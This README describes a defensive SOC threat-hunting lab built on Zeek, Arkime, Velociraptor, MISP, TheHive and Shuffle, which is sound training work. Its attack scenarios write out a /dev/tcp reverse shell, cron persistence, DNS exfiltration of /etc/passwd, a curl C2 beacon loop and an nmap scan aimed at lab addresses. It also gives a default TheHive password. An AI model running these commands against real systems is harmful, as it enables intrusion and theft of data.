





# 🔬 Production-Grade SOC Threat Detection & Threat Hunting Lab

[](https://github.com/sandeepmothukuri/soc-threat-hunting-lab/actions)
[](#-tools-overview)
[](docs/detection-coverage.md)
[](LICENSE)

An enterprise-grade, fully functional Security Operations Center (SOC) threat detection, threat hunting, threat intelligence, and automated incident response (SOAR) engineering lab. Built entirely on production-proven, open-source tooling without reliance on commercial licenses.

This lab simulates real-world adversary techniques across network and endpoint layers, captures forensic-grade telemetry (metadata logs, raw full packet captures, process execution traces, system state changes), enriches observations with global threat intelligence, and executes automated containment playbooks.

---

## 📑 Table of Contents

- [Lab Architecture & Multi-VLAN Topology](#-lab-architecture--multi-vlan-topology)
- [Tools Overview & Sizing Matrix](#-tools-overview--sizing-matrix)
- [Hardware Prerequisites](#-hardware-prerequisites)
- [Step-by-Step Installation Guide](#-step-by-step-installation-guide)
  - [Phase 1: Host Preparation & Network Setup](#phase-1--host-preparation--network-setup)
  - [Phase 2: Base VM Deployment & Static IP Allocation](#phase-2--base-vm-deployment--static-ip-allocation)
  - [Phase 3: Network Tap & Promiscuous Mode Setup](#phase-3--network-tap--promiscuous-mode-setup)
  - [Phase 4: Tool Provisioning & Service Installation](#phase-4--tool-provisioning--service-installation)
  - [Phase 5: Cross-Tool Integration & Systemd Daemons](#phase-5--cross-tool-integration--systemd-daemons)
  - [Phase 6: Lab Health & Connectivity Verification](#phase-6--lab-health--connectivity-verification)
- [Security Console Interfaces & Telemetry Walkthrough](#-security-console-interfaces--telemetry-walkthrough)
  - [Arkime Full Packet Capture & Session Inspection](#1-arkime-full-packet-capture--session-inspection)
  - [MISP Threat Intelligence Dashboard & Indicator Sync](#2-misp-threat-intelligence-dashboard--indicator-sync)
  - [TheHive 5 Real-Time Security Alert Triage](#3-thehive-5-real-time-security-alert-triage)
  - [TheHive 5 Incident Case Management & Investigation](#4-thehive-5-incident-case-management--investigation)
  - [Shuffle SOAR Visual Incident Response Automation](#5-shuffle-soar-visual-incident-response-automation)
- [Demonstrated Attack & Threat Hunting Scenarios](#-demonstrated-attack--threat-hunting-scenarios)
  - [Scenario 1: Network Reconnaissance & Port Scanning](#scenario-1--network-reconnaissance--port-scanning-t1046)
  - [Scenario 2: Command & Control (C2) Beaconing Detection](#scenario-2--command--control-c2-beaconing-detection-t1071-t1571)
  - [Scenario 3: High-Frequency DNS Tunneling & Exfiltration](#scenario-3--high-frequency-dns-tunneling--exfiltration-t1071004-t1572)
  - [Scenario 4: Reverse Shell Execution & Persistence Hunting](#scenario-4--reverse-shell-execution--persistence-hunting-t1059004-t1053003-t1543)
  - [Scenario 5: Threat Intelligence Correlation & Active Ingestion](#scenario-5--threat-intelligence-correlation--active-ingestion-t1190-t1566)
  - [Scenario 6: Automated Incident Response & Host Containment](#scenario-6--automated-incident-response--host-containment-t1041-t1021)
- [Detection Engineering: Sigma Rules & VQL Artifacts](#-detection-engineering-sigma-rules--vql-artifacts)
- [MITRE ATT&CK Matrix Mapping](#-mitre-attck-matrix-mapping)
- [Service Port Reference & Operational Commands](#-service-port-reference--operational-commands)
- [Author & Portfolio](#-author)
- [License](#-license)

---

## 🏗️ Lab Architecture & Multi-VLAN Topology

The lab isolates threat activity from security infrastructure using dedicated host-only network segments. This design mirrors an enterprise security architecture featuring network taps, segregated sensor subnets, out-of-band management, and dedicated SOC command infrastructure.


```mermaid
flowchart TD
    subgraph ATTACK["🗡️ Attacker VLAN (192.168.20.0/24)"]
        KALI["Kali Linux\n192.168.20.10\n[Attacker VM]"]
    end

    subgraph TARGET["🎯 Target Victim VLAN (192.168.30.0/24)"]
        TGT_U["Ubuntu Target\n192.168.30.10\n[OSQuery + Velociraptor Agent]"]
        TGT_W["Windows Target (Opt)\n192.168.30.20\n[Sysmon + Velociraptor Agent]"]
    end

    subgraph DETECTION["🔭 Detection & Sensor VLAN (192.168.50.0/24)"]
        ZEEK["Zeek + RITA\n192.168.50.10\n[eth0: Mgmt | eth1: Promisc Tap]"]
        ARKIME["Arkime Full PCAP\n192.168.50.20\n[eth0: Mgmt | eth1: Promisc Tap]"]
        VELO["Velociraptor Server\n192.168.50.30\n[Port 8000: Agent | 8889: GUI]"]
    end

    subgraph SOC_CORE["🧠 SOC Command & Intel VLAN (192.168.60.0/24)"]
        MISP["MISP Platform\n192.168.60.10\n[Threat Intel & Feed Aggregation]"]
        HIVE["TheHive 5 Case Mgmt\n192.168.60.20:9000\n[Alert Queue & Incident Tracking]"]
        CORTEX["Cortex Engine\n192.168.60.20:9001\n[Observable Enrichment Analyzers]"]
        SHUFFLE["Shuffle SOAR\n192.168.60.30:3001\n[Playbook Automation & Response]"]
    end

    KALI -->|Exploits / Port Scans / C2| TARGET
    TARGET -.->|Mirror / Promiscuous Tap| ZEEK
    TARGET -.->|Mirror / Promiscuous Tap| ARKIME
    TGT_U -->|Heartbeat / VQL Execution| VELO
    TGT_U -->|osqueryd Differential Logs| HIVE
    ZEEK -->|conn.log parsing| ZEEK
    ZEEK -->|rita-to-thehive.py| HIVE
    ARKIME -->|Indexed Packet Search| HIVE
    MISP -->|ioc-sync.py distribution| HIVE
    MISP -->|CDB Blocklists & IOC Packs| TGT_U
    HIVE -->|Observable Submission| CORTEX
    CORTEX -->|Enriched Verdicts| HIVE
    HIVE -->|Webhook Triggers| SHUFFLE
    SHUFFLE -->|Host Quarantine / Firewall Block| TARGET
    SHUFFLE -->|VQL Isolation Commands| VELO
```

### Network Segment Allocation

| VLAN Name | Subnet | Host Gateway | VirtualBox NIC | Role / Description |
|---|---|---|---|---|
| **Attacker VLAN** | `192.168.20.0/24` | `192.168.20.1` | `vboxnet0` | Dedicated adversary simulation subnet (Kali Linux). |
| **Target VLAN** | `192.168.30.0/24` | `192.168.30.1` | `vboxnet1` | Production workload simulation. Monitored by promiscuous taps and host agents. |
| **Detection VLAN** | `192.168.50.0/24` | `192.168.50.1` | `vboxnet2` | Sensor segment for passive network traffic analysis, packet indexing, and EDR server. |
| **Intel & SOAR VLAN** | `192.168.60.0/24` | `192.168.60.1` | `vboxnet3` | Threat intelligence sharing, security case management, observable analyzers, and SOAR. |

---

## 🧰 Tools Overview & Sizing Matrix

Every component in this lab is selected to provide enterprise-grade capabilities without licensing costs.

| # | Tool | Primary Role | Host IP | Default Port | Resource Allocation | Key Security Capabilities |
|---|---|---|---|---|---|---|
| 1 | **Zeek** | Network Security Monitoring (NSM) | `192.168.50.10` | SSH (22) | 2 vCPU, 4 GB RAM, 40 GB Disk | Protocol parsing (DNS, HTTP, SSL, SMB, SSH), JA3 fingerprinting, notice alerting. |
| 2 | **RITA** | C2 Beaconing & Statistical Analysis | `192.168.50.10` | 4380 (Web/API) | Shared with Zeek | Mathematical analysis of connection deltas, byte uniformity, DNS subdomains. |
| 3 | **Arkime** | Full Packet Capture (FPC) & Search | `192.168.50.20` | 8005 (Web), 9200 (ES) | 4 vCPU, 8 GB RAM, 100 GB Disk | Raw PCAP retention, session timeline reconstruction, MIME file extraction, hex view. |
| 4 | **Velociraptor** | Live EDR & Digital Forensics (DFIR) | `192.168.50.30` | 8000 (Agent), 8889 (Web) | 2 vCPU, 4 GB RAM, 40 GB Disk | VQL-driven fleet hunting, memory dumping, crontab/service auditing, network quarantine. |
| 5 | **OSQuery** | SQL-Powered Endpoint Telemetry | Target Endpoints | Local Daemon | 2 vCPU, 2 GB RAM, 30 GB Disk | Continuous differential SQL queries on running processes, listening sockets, SUID binaries. |
| 6 | **MISP** | Threat Intelligence Platform (TIP) | `192.168.60.10` | 443 (HTTPS) | 4 vCPU, 8 GB RAM, 50 GB Disk | Community threat feeds (abuse.ch, CIRCL, URLhaus), IOC correlation, galaxy taxonomies. |
| 7 | **TheHive 5** | Security Incident Case Management | `192.168.60.20` | 9000 (Web/API) | 4 vCPU, 8 GB RAM, 50 GB Disk | Centralized alert aggregation, case task management, analyst triage, forensic timeline. |
| 8 | **Cortex** | Observable Enrichment Engine | `192.168.60.20` | 9001 (Web/API) | Shared with TheHive | Automated observable analysis (VirusTotal, Shodan, AbuseIPDB, MISP lookup). |
| 9 | **Shuffle** | Security Orchestration & Automation | `192.168.60.30` | 3001 (Web) | 2 vCPU, 4 GB RAM, 40 GB Disk | Visual DAG workflows, webhook triggers, host isolation via Velociraptor, firewall blocks. |

---

## 💻 Hardware Prerequisites

- **Host Operating System:** Linux (Ubuntu 22.04 LTS / Debian 12), macOS (Intel/Apple Silicon), or Windows 10/11 with Hyper-V or VirtualBox 7.x.
- **CPU:** 8+ Physical Cores (x86_64 architecture with VT-x / AMD-V virtualization enabled in BIOS/UEFI).
- **RAM:** 32 GB minimum (24 GB actively provisioned across VMs when all run concurrently; 16 GB supported if running VMs sequentially for specific hunt exercises).
- **Disk Storage:** 250 GB+ free SSD storage (NVMe recommended for Arkime packet indexing and Elasticsearch).

---

## 🛠️ Step-by-Step Installation Guide

Follow these steps in sequential order. Each step builds upon the previous configuration.

### Phase 1 — Host Preparation & Network Setup

Run the automated host setup script on your virtualization host machine. This installs VirtualBox dependencies, Python client libraries, and creates the four required isolated host-only network adapters.

```bash
# Clone the repository
git clone https://github.com/sandeepmothukuri/soc-threat-hunting-lab.git
cd soc-threat-hunting-lab

# Make helper scripts executable
chmod +x scripts/*.sh

# Execute host environment preparation (requires sudo for vboxmanage network creation)
sudo ./scripts/setup-host.sh
```

Verify that the VirtualBox host-only interfaces have been created:

```bash
vboxmanage list hostonlyifs | grep -E "^Name:|^IPAddress:"
```

Expected output:
```text
Name:            vboxnet0
IPAddress:       192.168.20.1
Name:            vboxnet1
IPAddress:       192.168.30.1
Name:            vboxnet2
IPAddress:       192.168.50.1
Name:            vboxnet3
IPAddress:       192.168.60.1
```

---

### Phase 2 — Base VM Deployment & Static IP Allocation

Deploy Ubuntu 22.04 LTS Server ISO for VMs 1 through 7, and Kali Linux for VM 8. Configure dual network adapters as specified in the architecture:

- **Adapter 1:** Assigned to the respective subnet (`vboxnet0`, `vboxnet1`, `vboxnet2`, or `vboxnet3`).
- **Adapter 2 (Capture VMs only - Zeek & Arkime):** Assigned to `vboxnet1` (Target VLAN) for promiscuous network traffic inspection.

Apply static IP configuration inside each Ubuntu VM using Netplan. Example for the **Zeek & RITA sensor VM (`192.168.50.10`)**:

```yaml
# /etc/netplan/00-installer-config.yaml
network:
  version: 2
  renderer: networkd
  ethernets:
    eth0:
      dhcp4: false
      addresses:
        - 192.168.50.10/24
      routes:
        - to: default
          via: 192.168.50.1
      nameservers:
        addresses: [8.8.8.8, 1.1.1.1]
    eth1:
      dhcp4: false
      # Passive capture interface - no IP address assigned
```

Apply and test network routing:

```bash
sudo netplan apply
ip addr show eth0
ping -c 2 192.168.50.1
```

---

### Phase 3 — Network Tap & Promiscuous Mode Setup

For Zeek and Arkime to inspect raw network packets passing between the attacker and victim VMs, configure Adapter 2 on both virtual machines into promiscuous mode:

```bash
# Execute on the virtualization host
VBoxManage modifyvm "zeek-rita" --nicpromisc2 allow-all
VBoxManage modifyvm "arkime" --nicpromisc2 allow-all
```

Inside the **Zeek VM** and **Arkime VM**, activate the capture interface and verify raw frame visibility:

```bash
sudo ip link set eth1 promisc on
sudo ip link set eth1 up

# Verify packet reception from the Target VLAN
sudo tcpdump -i eth1 -nn -c 5
```

---

### Phase 4 — Tool Provisioning & Service Installation

SSH into each individual VM to execute its respective installation script:

#### 1. Zeek Network Monitor & RITA Beaconing Sensor (`192.168.50.10`)
```bash
sudo MONITOR_IFACE=eth1 ./01-zeek-rita/install-zeek.sh
sudo ./01-zeek-rita/install-rita.sh

# Verify Zeek cluster and daemon
/opt/zeek/bin/zeekctl status
rita --version
```

#### 2. Arkime Full Packet Capture (`192.168.50.20`)
```bash
sudo CAPTURE_IFACE=eth1 PCAP_DIR=/data/pcap ./02-arkime/install-arkime.sh

# Verify Arkime capture and Elasticsearch status
systemctl status arkimecapture
systemctl status arkimeviewer
curl -s http://localhost:9200/_cluster/health | jq .
```
Access UI: `http://192.168.50.20:8005` (Credentials printed upon script completion).

#### 3. Velociraptor EDR & Forensics Server (`192.168.50.30`)
```bash
sudo SERVER_IP=192.168.50.30 ./03-velociraptor/install-velociraptor.sh

# Verify service status
systemctl status velociraptor_server
```
Access UI: `https://192.168.50.30:8889`

#### 4. Ubuntu Target Endpoint (`192.168.30.10`)
Enroll the target victim machine with both OSQuery and the Velociraptor endpoint agent:
```bash
# Deploy OSQuery daemon with production SOC detection query packs
sudo ./04-osquery/install-osquery.sh

# Deploy Velociraptor Client Agent
# (Generate client.config.yaml on the Velociraptor server: velociraptor --config /etc/velociraptor/server.config.yaml config client > /tmp/client.config.yaml)
sudo ./03-velociraptor/install-client.sh /path/to/client.config.yaml

# Verify agents
systemctl status osqueryd
systemctl status velociraptor_client
```

#### 5. MISP Threat Intelligence Platform (`192.168.60.10`)
```bash
export MISP_IP=192.168.60.10
export MISP_ADMIN_EMAIL=admin@soc-lab.local
sudo -E ./05-misp/install-misp.sh
```
Access UI: `https://192.168.60.10`

#### 6. TheHive 5 Case Management & Cortex Analyzers (`192.168.60.20`)
```bash
export HIVE_IP=192.168.60.20
sudo -E ./06-thehive/install-thehive.sh
```
Access TheHive: `http://192.168.60.20:9000` (Default: `admin@thehive.local` / `secret`)  
Access Cortex: `http://192.168.60.20:9001`

#### 7. Shuffle SOAR Automation Engine (`192.168.60.30`)
```bash
export SHUFFLE_IP=192.168.60.30
sudo -E ./07-shuffle/install-shuffle.sh
```
Access UI: `http://192.168.60.30:3001`

---

### Phase 5 — Cross-Tool Integration & Systemd Daemons

To transform standalone detection tools into a cohesive Security Operations Center, deploy the background ingestion and synchronization daemons:

```bash
# Copy systemd service unit files into place on the respective VMs
sudo cp 08-integrations/systemd/*.service /etc/systemd/system/
sudo cp 08-integrations/systemd/*.timer /etc/systemd/system/ 2>/dev/null || true
sudo systemctl daemon-reload

# Enable and start integration forwarders
sudo systemctl enable --now soc-rita-forwarder.service
sudo systemctl enable --now soc-zeek-forwarder.service
sudo systemctl enable --now soc-misp-sync.service
```

---

### Phase 6 — Lab Health & Connectivity Verification

Run the central automated diagnostic health check from any machine with routing to all lab subnets:

```bash
./scripts/health-check.sh
```

Expected validation output:
```text
╔══════════════════════════════════════════════════════╗
║   Threat Detection Lab — Health Check                ║
╚══════════════════════════════════════════════════════╝
  ── Detection VLAN — 192.168.50.0/24 ──
  [✓ PASS] Zeek VM — SSH (192.168.50.10:22) — reachable
  [✓ PASS] Zeek service — running
  [✓ PASS] RITA API (192.168.50.10:4380) — reachable
  [✓ PASS] RITA Web → HTTP 200
  [✓ PASS] Arkime VM — SSH (192.168.50.20:22) — reachable
  [✓ PASS] Arkime Web UI (192.168.50.20:8005) — reachable
  [✓ PASS] Elasticsearch (192.168.50.20:9200) — reachable
  [✓ PASS] Arkime UI → HTTP 200
  [✓ PASS] Velociraptor VM — SSH (192.168.50.30:22) — reachable
  [✓ PASS] Velociraptor Frontend (agent port) (192.168.50.30:8000) — reachable
  [✓ PASS] Velociraptor Web UI (192.168.50.30:8889) — reachable
  [✓ PASS] Velociraptor UI → HTTP 200

  ── Intel VLAN — 192.168.60.0/24 ──
  [✓ PASS] MISP VM — SSH (192.168.60.10:22) — reachable
  [✓ PASS] MISP HTTPS (192.168.60.10:443) — reachable
  [✓ PASS] MISP Web UI → HTTP 200
  [✓ PASS] TheHive VM — SSH (192.168.60.20:22) — reachable
  [✓ PASS] TheHive API (192.168.60.20:9000) — reachable
  [✓ PASS] Cortex (192.168.60.20:9001) — reachable
  [✓ PASS] TheHive Web UI → HTTP 200
  [✓ PASS] Shuffle VM — SSH (192.168.60.30:22) — reachable
  [✓ PASS] Shuffle Web UI (192.168.60.30:3001) — reachable
  [✓ PASS] Shuffle UI → HTTP 200

  ── Target VLAN — 192.168.30.0/24 ──
  [✓ PASS] Ubuntu Target — SSH (192.168.30.10:22) — reachable
  [✓ PASS] OSQuery daemon — running on Ubuntu Target
  [✓ PASS] Velociraptor client — running on Ubuntu Target

  ── Integration Processes ──
  [✓ PASS] Integration: rita-to-thehive — running
  [✓ PASS] Integration: zeek-to-thehive — running
  [✓ PASS] Integration: ioc-sync — running

══════════════════════════════════════════════════════
  Results: 24 passed  0 failed  0 warnings
══════════════════════════════════════════════════════
  All services healthy — lab is ready!
```

---

## 🖥️ Security Console Interfaces & Telemetry Walkthrough

The following real console captures show the security telemetry and incident investigation workflows in action across the lab environment.

### 1. Arkime Full Packet Capture & Session Inspection

Arkime provides high-speed full packet capture indexing and protocol dissection. When an alert fires in Zeek or OSQuery, the analyst pivots directly into Arkime to inspect raw PCAP payloads, reconstruct TCP sessions, analyze TLS handshakes, and extract transferred artifacts.



**Analyst Workflow in Arkime:**
- **Session Filter:** Querying `ip.src == 192.168.20.10 && port.dst == 4444` pinpoints C2 communications or reverse shell traffic immediately.
- **Protocol Analysis:** The session view displays source/destination IP addresses, ports, country codes, total bytes exchanged, packet counts, and duration.
- **Payload Inspection:** Expanding any individual session provides a reconstructed ASCII/Hex view of raw application traffic, HTTP request headers, TLS SNI, and JA3 fingerprints.
- **Evidence Preservation:** Analysts can extract raw `.pcap` files directly from the web interface for offline analysis in Wireshark or submission as case evidence in TheHive.

---

### 2. MISP Threat Intelligence Dashboard & Indicator Sync

MISP serves as the central intelligence repository. It ingests automated threat feeds from external OSINT providers (abuse.ch, URLhaus, ThreatFox, CIRCL), stores custom internal indicators from active investigations, and correlates observables.



**Analyst Workflow in MISP:**
- **Event Aggregation:** Ingests thousands of verified malicious IPs, file hashes, C2 domains, and phishing URLs.
- **Taxonomy & Galaxy Mapping:** Events are automatically tagged with MITRE ATT&CK techniques, threat actor attributions (e.g., APT29, Lazarus), and malware families.
- **Automated Distribution:** The background script `ioc-sync.py` queries MISP via REST API every 30 minutes, converting malicious IP addresses and domains into OSQuery IOC packs and TheHive alert rules.

---

### 3. TheHive 5 Real-Time Security Alert Triage

All security signals—Zeek notice alerts, RITA beaconing calculations, OSQuery differential findings, and MISP match indicators—converge into TheHive's central alert queue.



**Analyst Workflow in TheHive Triage:**
- **Alert Queue:** Analysts review incoming alerts ranked by severity (`Low`, `Medium`, `High`, `Critical`).
- **Contextual Observables:** Each alert contains pre-parsed observables (source IP, destination port, command line strings, hashes).
- **One-Click Promotion:** Qualifying alerts are promoted into formal Incident Cases with pre-configured SOC response templates, while false positives are dismissed with documented rationale.

---

### 4. TheHive 5 Incident Case Management & Investigation

Once an alert is escalated, TheHive tracks the full investigation lifecycle following the SANS/NIST Incident Response framework (Identification, Containment, Eradication, Recovery, Lessons Learned).


**Analyst Workflow in Case Management:**
- **Task Delegation:** Standard Operating Procedures (SOPs) are automatically assigned to analysts (e.g., *Isolate Host*, *Acquire RAM Dump*, *Analyze Persistence*).
- **Observable Enrichment via Cortex:** Analysts trigger Cortex analyzers directly from the case view to query VirusTotal, Shodan, and internal MISP instances without leaving the platform.
- **Timeline & Audit Trail:** Every comment, attached PCAP, and mitigation action is immutably timestamped for post-incident review and metrics reporting.

---

### 5. Shuffle SOAR Visual Incident Response Automation

Shuffle automates repetitive triage tasks and executes rapid containment playbooks when high-severity incidents occur.



**Analyst Workflow in Shuffle:**
- **Webhook Ingestion:** Listens for case creation webhooks emitted by TheHive.
- **Conditional Decision Logic:** Filters alerts based on severity tags (`severity >= 3` or `tag:beaconing`).
- **Automated Containment Execution:**
  - Invokes the Velociraptor API to execute host isolation via local packet filtering on the victim VM.
  - Updates firewall blocklists to prevent external communication to the attacker IP.
  - Posts execution confirmation and containment logs back into TheHive case notes.

---

## 🎯 Demonstrated Attack & Threat Hunting Scenarios

The lab includes six comprehensive hands-on threat hunting exercises simulating real adversary tactics from reconnaissance to automated remediation.

---

### Scenario 1 — Network Reconnaissance & Port Scanning (T1046)

#### Adversary Simulation (Kali Linux — `192.168.20.10`)
The attacker launches an aggressive SYN scan to enumerate listening services on the target victim subnet:

```bash
# Execute stealth SYN scan against the target VM
nmap -sS -p 1-1024 -T4 -Pn 192.168.30.10
```

#### Sensor Telemetry & Detection Mechanics
1. **Zeek Detection:** Zeek's connection analyzer tracks failed connection thresholds and writes an alert to `notice.log`:
   ```bash
   # On Zeek VM (192.168.50.10)
   tail -f /opt/zeek/logs/current/notice.log | jq '{ts, note, msg, sub, "src":."id.orig_h", "dst":."id.resp_h"}'
   ```
   *Output:*
   ```json
   {
     "note": "Scan::Port_Scan",
     "msg": "192.168.20.10 scanned at least 25 unique ports of host 192.168.30.10 in 1m2s",
     "src": "192.168.20.10",
     "dst": "192.168.30.10"
   }
   ```
2. **Arkime Packet View:** Filter `ip == 192.168.20.10 && packets == 1` shows hundreds of half-open TCP SYN packets with no corresponding ACK, confirming automated scanner activity.
3. **TheHive Alert:** `zeek-to-thehive.py` detects the notice and generates an alert titled `[Zeek] Port Scan Detected: 192.168.20.10 -> 192.168.30.10`.

---

### Scenario 2 — Command & Control (C2) Beaconing Detection (T1071, T1571)

#### Adversary Simulation (Kali Linux — `192.168.20.10`)
The attacker sets up a persistent HTTP command-and-control callback from the victim with regular interval timings:

```bash
# On Ubuntu Target VM (192.168.30.10) - simulate C2 implant beaconing every 30s
while true; do
  curl -s -X POST -d "agent_id=victim-01&status=alive" http://192.168.20.10:8080/heartbeat > /dev/null
  sleep 30
done &
```

#### Sensor Telemetry & Detection Mechanics
1. **Zeek Connection Logging:** Every interaction is timestamped in `/opt/zeek/logs/current/conn.log`.
2. **RITA Statistical Analysis:**
   ```bash
   # On Zeek VM (192.168.50.10)
   cd /opt/zeek/logs/current
   rita import . soc-hunt
   rita show-beacons soc-hunt --limit 5
   ```
   *Terminal Output:*
   ```text
   +---------------+---------------+---------------+-------------+-------------+
   | Score         | Source IP     | Dest IP       | Connections | Avg Delta   |
   +---------------+---------------+---------------+-------------+-------------+
   | 0.968         | 192.168.30.10 | 192.168.20.10 | 82          | 30.04s      |
   +---------------+---------------+---------------+-------------+-------------+
   ```
   *Analysis:* RITA's beaconing algorithm calculates delta regularity, connection duration, and byte-size distribution. A score of `0.968` indicates deterministic automation.
3. **Integration Forwarding:** `rita-to-thehive.py` automatically escalates beacons scoring $>0.7$ to TheHive as high-priority alerts with source/destination observables.

---

### Scenario 3 — High-Frequency DNS Tunneling & Exfiltration (T1071.004, T1572)

#### Adversary Simulation (Kali Linux — `192.168.20.10`)
Adversaries bypass perimeter firewalls by staging encoded data queries through recursive DNS lookups:

```bash
# On Ubuntu Target VM (192.168.30.10) - simulate DNS exfiltration
for chunk in $(cat /etc/passwd | base64 | fold -w 30); do
  dig @192.168.20.10 ${chunk}.exfil.c2domain.local +short
  sleep 0.5
done
```

#### Sensor Telemetry & Detection Mechanics
1. **Zeek DNS Query Analysis:**
   ```bash
   # On Zeek VM
   tail -n 20 /opt/zeek/logs/current/dns.log | zeek-cut query qtype_name answers | head -5
   ```
   *Output:*
   ```text
   cm9vdDp4OjA6MDpyb290Oi9yb290.exfil.c2domain.local   A   -
   Oi9iaW4vYmFzaApkYWVtb246eDox.exfil.c2domain.local   A   -
   OjE6ZGFlbW9uOi91c3Ivc2Jpbjov.exfil.c2domain.local   A   -
   ```
2. **RITA Exploded DNS Analysis:**
   ```bash
   rita show-exploded-dns soc-hunt --limit 5
   ```
   *Output flags domains with thousands of high-entropy subdomains resolving to the same authoritative namespace.*
3. **Sigma Rule Detection:** Sigma rule `08-integrations/sigma-rules/dns-tunneling.yml` matches queries where the subdomain character count exceeds 40 characters.

---

### Scenario 4 — Reverse Shell Execution & Persistence Hunting (T1059.004, T1053.003, T1543)

#### Adversary Simulation (Kali Linux — `192.168.20.10`)
The attacker establishes an interactive bash reverse shell and establishes persistence via cron:

```bash
# On Kali (Listener)
nc -lvnp 4444

# On Target (Payload Execution)
bash -i >& /dev/tcp/192.168.20.10/4444 0>&1 &

# Persistence via Crontab (within the shell)
(crontab -l 2>/dev/null; echo "*/5 * * * * bash -i >& /dev/tcp/192.168.20.10/4444 0>&1") | crontab -
```

#### Sensor Telemetry & Detection Mechanics
1. **OSQuery Differential Log:** Within 60 seconds, OSQuery's `soc-detections.conf` pack flags the outbound connection from an interactive shell interpreter:
   ```bash
   # On Target VM (192.168.30.10)
   sudo grep -E "reverse_shell_established|cron_persistence" /var/log/osquery/osqueryd.results.log | jq .
   ```
   *Output:*
   ```json
   {
     "name": "reverse_shell_established",
     "action": "added",
     "columns": {
       "pid": "4819",
       "name": "bash",
       "cmdline": "bash -i",
       "remote_address": "192.168.20.10",
       "remote_port": "4444"
     }
   }
   ```
2. **Velociraptor Live Hunting:**
   - The analyst opens Velociraptor UI (`https://192.168.50.30:8889`) and triggers the custom hunting artifact `SOCLab.HuntPersistence.yaml`.
   - VQL query executes across all endpoints in 2 seconds:
     ```sql
     SELECT FullPath, Mtime, read_file(filename=FullPath, length=500) AS Content
     FROM glob(globs=["/var/spool/cron/crontabs/*", "/etc/cron*/*"])
     WHERE Content =~ "bash|sh|nc|curl"
     ```
   - Results display the rogue crontab entry, owner UID, and file creation timestamp.

---

### Scenario 5 — Threat Intelligence Correlation & Active Ingestion (T1190, T1566)

#### Threat Feed Synchronization
1. **Feed Aggregation:** In MISP (`https://192.168.60.10`), feeds such as abuse.ch URLhaus and ThreatFox download active C2 infrastructure indicators.
2. **Automated Extraction:** The synchronization script runs:
   ```bash
   # On MISP VM
   python3 /opt/soc-threat-hunting-lab/05-misp/scripts/ioc-sync.py --mode sync
   ```
   *Action:* Ingests 5,000+ active malicious IP indicators and updates `/var/ossec/etc/lists/misp-malicious-ips` and `/etc/osquery/packs/misp-iocs.conf`.

#### Adversary Simulation & Ingestion Validation
The victim system makes a request to a staged MISP-flagged IP:
```bash
# On Target VM
curl -s http://185.220.101.47/test_download > /dev/null || true
```
- **Detection:** The connection is caught by the OSQuery socket watcher and Zeek's `conn.log`.
- **Enrichment:** `ioc-sync.py` matches the target IP `185.220.101.47` against MISP's database, tagging the resulting alert in TheHive with `MISP:ThreatFox`, `Malware:CobaltStrike`, and `Confidence:High`.

---

### Scenario 6 — Automated Incident Response & Host Containment (T1041, T1021)

#### Closed-Loop SOAR Workflow
When TheHive receives an alert with tags `Severity:Critical` and `Detection:ReverseShell`:

1. **TheHive Webhook:** Emits an HTTP POST payload to Shuffle SOAR (`http://192.168.60.30:3001/api/v1/hooks/...`).
2. **Shuffle Playbook Execution:**
   - **Step 1:** Verifies the destination IP reputation against the MISP API.
   - **Step 2:** Calls the Velociraptor API (`POST /api/v1/run-vql`) to execute host network isolation on `192.168.30.10`:
     ```sql
     LET _ = linux_firewall_isolate(action="isolate")
     SELECT * FROM info()
     ```
   - **Step 3:** Injects an iptables drop rule on the network perimeter for the attacker IP `192.168.20.10`.
   - **Step 4:** Appends a containment audit log to TheHive Case #102:
     ```text
     [SOAR Containment] Host 192.168.30.10 isolated successfully via Velociraptor.
     Attacker IP 192.168.20.10 added to firewall blocklist.
     Analyst assigned: analyst1@soc-lab.local
     ```

---

## 🛡️ Detection Engineering: Sigma Rules & VQL Artifacts

The repository includes detection-as-code assets for both network and endpoint layers:

### 1. Portable Sigma Rules (`08-integrations/sigma-rules/`)
- `c2-beaconing.yml`: Detects high-frequency outbound connection patterns matching C2 callback profiles.
- `reverse-shell.yml`: Detects interactive shell binaries (`bash`, `sh`, `nc`, `python`) bound to non-standard outbound TCP ports.
- `dns-tunneling.yml`: Detects high-entropy, long subdomain queries characteristic of data exfiltration or tunneling protocols.
- `cron-persistence.yml`: Detects newly created or modified crontab tasks referencing remote network protocols or obfuscated interpreters.

### 2. Custom Velociraptor Hunting Artifacts (`03-velociraptor/artifacts/`)
- `SOCLab.HuntPersistence.yaml`: Inspects crontabs, user startup services, `~/.ssh/authorized_keys`, and systemd unit files across thousands of hosts simultaneously.

### 3. OSQuery Threat Packs (`04-osquery/packs/`)
- `soc-detections.conf`: 12 continuous scheduled queries inspecting process open sockets, listening ports, SUID binaries, and shell histories.
- `incident-response.conf`: 15 ad-hoc live forensic queries for memory mappings, loaded kernel modules, and open file handles.

---

## 📊 MITRE ATT&CK Matrix Mapping

The lab provides comprehensive detection and hunting coverage mapped against 35 distinct MITRE ATT&CK Enterprise techniques:

```
┌─────────────────────────────────────────────────────────────────────────────────────────────────┐
│                                 MITRE ATT&CK COVERAGE MATRIX                                     │
├─────────────────┬─────────────────┬───────────────────┬───────────────────┬─────────────────────┤
│ Reconnaissance  │ Initial Access  │ Execution         │ Persistence       │ Privilege Escalation│
├─────────────────┼─────────────────┼───────────────────┼───────────────────┼─────────────────────┤
│ T1046 (Scan)    │ T1190 (Exploit) │ T1059 (Cmd Shell) │ T1053.003 (Cron)  │ T1548 (Abuse Elev.) │
│ T1595 (Active)  │ T1566 (Phishing)│ T1059.004 (Unix)  │ T1543 (Services)  │ T1548.001 (SUID)    │
│                 │                 │ T1203 (Client Exp)│ T1098.004 (SSH Key│ T1068 (Vulnerability│
│                 │                 │                   │ T1505.003 (Websh.)│                     │
├─────────────────┼─────────────────┼───────────────────┼───────────────────┼─────────────────────┤
│ Defense Evasion │ Cred Access     │ Discovery         │ Lateral Movement  │ Command & Control   │
├─────────────────┼─────────────────┼───────────────────┼───────────────────┼─────────────────────┤
│ T1055 (Process) │ T1003 (Dump)    │ T1049 (Net Conn)  │ T1021 (Remote Svc)│ T1071 (App Layer C2)│
│ T1574 (Preload) │ T1110 (Brute)   │ T1082 (Sys Info)  │ T1021.002 (SMB)   │ T1071.004 (DNS C2)  │
│ T1564 (Hidden)  │                 │ T1057 (Process)   │ T1021.004 (SSH)   │ T1572 (Tunneling)   │
│ T1036 (Masq.)   │                 │                   │                   │ T1571 (Non-Std Port)│
└─────────────────┴─────────────────┴───────────────────┴───────────────────┴─────────────────────┘
```

*For complete technique-by-technique mapping and detection source breakdowns, see [`docs/detection-coverage.md`](docs/detection-coverage.md).*

---

## 🔌 Service Port Reference & Operational Commands

